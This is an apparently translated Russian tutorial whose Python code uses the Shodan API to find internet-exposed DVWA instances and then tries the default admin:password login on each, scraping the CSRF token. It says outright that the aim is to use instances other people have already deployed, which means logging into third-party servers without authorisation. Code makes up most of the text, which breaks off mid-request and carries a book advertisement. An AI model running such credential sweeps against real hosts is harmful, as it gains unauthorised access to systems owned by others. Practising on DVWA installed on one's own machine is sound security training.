 DVWA - это проект с открытым исходным кодом, созданный для тестирования безопасности; это веб-приложение, которое уязвимо по своей конструкции; ожидается, что пользователи развернут его на своих компьютерах, чтобы использовать его. Мы попытаемся найти экземпляры в Интернете, у которых он уже развернут, чтобы использовать его без установки.

Должно быть много способов поиска экземпляров DVWA, но мы будем придерживаться названия, так как это просто:

Поиск экземпляров DVWAСложность выполнения этой задачи вручную заключается в том, что для большинства экземпляров учетные данные для входа должны быть изменены. Итак, чтобы найти доступные экземпляры DVWA, необходимо попробовать учетные данные по умолчанию для каждого из обнаруженных экземпляров, мы сделаем это с Python:

import shodan
import time
import requests
import re

# your shodan API key
SHODAN_API_KEY = '<YOUR_SHODAN_API_KEY_HERE>'
api = shodan.Shodan(SHODAN_API_KEY)
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Теперь давайте напишем функцию, которая запрашивает страницу результатов из Shodan. Одна страница может содержать до 100 результатов, и мы добавляем цикл для безопасности. В случае возникновения ошибки сети или API мы продолжаем повторять попытку со вторыми задержками, пока она не сработает:

# requests a page of data from shodan
def request_page_from_shodan(query, page=1):
    while True:
        try:
            instances = api.search(query, page=page)
            return instances
        except shodan.APIError as e:
            print(f"Error: {e}")
            time.sleep(5)
Определим функцию, которая принимает хост и проверяет, допустимы ли учетные данные admin:password (значения по умолчанию для DVWA); это не зависит от библиотеки Шодан. Мы будем использовать библиотеку запросов для отправки наших учетных данных и проверки результата:

# Try the default credentials on a given instance of DVWA, simulating a real user trying the credentials
# visits the login.php page to get the CSRF token, and tries to login with admin:password
def has_valid_credentials(instance):
    sess = requests.Session()
    proto = ('ssl' in instance) and 'https' or 'http'
    try:
        res = sess.get(f"{proto}://{instance['ip_str']}:{instance['port']}/login.php", verify=False)
    except requests.exceptions.ConnectionError:
        return False
    if res.status_code != 200:
        print("[-] Got HTTP status code {res.status_code}, expected 200")
        return False
    # search the CSRF token using regex
    token = re.search(r"user_token' value='([0-9a-f]+)'", res.text).group(1)
    res = sess.post(
        f"{proto}://{instance['ip_str']}:{instance['port']}/login.php",
        f"username=admin&password=password&user_token={token}&Login=Login",